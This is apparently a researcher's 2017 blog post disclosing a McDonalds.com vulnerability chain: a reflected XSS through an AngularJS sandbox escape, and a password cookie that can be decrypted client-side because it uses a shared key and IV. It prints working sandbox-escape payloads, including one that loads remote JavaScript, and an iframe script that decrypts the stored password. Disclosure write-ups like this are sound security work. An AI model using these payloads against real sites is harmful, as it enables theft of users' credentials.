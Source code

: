 ```yaml
---
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users.
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
keywords: xss, cross-site, scripting, mcdonalds, password, vulnerability, stealing, angularjs
date: 2017-01-06 00:31:42
robots: index, follow
show_in_home: true
---
```


By abusing an insecure cryptographic storage vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2007-Insecure_Cryptographic_Storage" %}) and a reflected server cross-site-scripting vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)" %}) it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-1" "search-value-test-preview.png" "Text on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-1" "search-value-test-reflected.png" "Text in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-preview.png" "Unique ID on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-reflected.png" "Unique ID in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even got removed in version 1.6 ({% customlink "https://docs.angularjs.org/guide/security#sandbox-removal" %}) because it gave a false sense of security. PortSwigger created a nice blog post about escaping the AngularJS sandbox ({% customlink "http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html" %}).

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-3" "angular-version.png" "Angular version" %}{% raw %}
	</div>
</div>
{% endraw %}

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-4" "alert-1-in-chrome.png" "Alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/external-alert.js`)');}}{% endraw %}`

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-5" "alert-external-in-chrome.png" "External domain alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-6" "mcdonalds-login-form.png" "Remember my password checkbox" %}{% raw %}
	</div>
</div>
{% endraw %}

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-7" "source-search-password.png" "Source code search for `password`" %}{% raw %}
		{% endraw %}{% customlightbox "step-7" "cookie-pass-decrypt-source.png" "Source for decrypting the user's password" %}{% raw %}
	</div>
</div>
{% endraw %}

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-8" "decrypt-get-cookie-penc.png" "Decrypting my password using the console" %}{% raw %}
	</div>
</div>
{% endraw %}

The `penc` value is a cookie that is stored for a year. LOL!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-9" "penc-cookie.png" "The `penc` cookie that is stored for a year" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-10" "encrypt-decrypt-source.png" "Encrypting and decrypting sensitive data using CryptoJS" %}{% raw %}
	</div>
</div>
{% endraw %}

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-11" "char-at-fail.png" "The `charAt` method on the search page (fails)" %}{% raw %}
		{% endraw %}{% customlightbox "step-11" "char-at-success.png" "The `charAt` method on the homepage (success)`" %}{% raw %}
	</div>
</div>
{% endraw %}

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlightcode javascript %}
	if (!window.xssIsExecuted) {
	    window.xssIsExecuted = true;

	    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
	    $('body').append(iframe);

	    iframe.on('load', function() {
	        var penc = iframe[0].contentWindow.getCookie('penc');
	        alert(iframe[0].contentWindow.decrypt(penc));
	    });
	}
{% endhighlightcode %}

We can now use the following sandbox escape, which results in my password in an alert box!

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}`

{% raw %}
<p></p>
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-12" "alert-my-password.png" "My password!" %}{% raw %}
	</div>
</div>
{% endraw %}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.
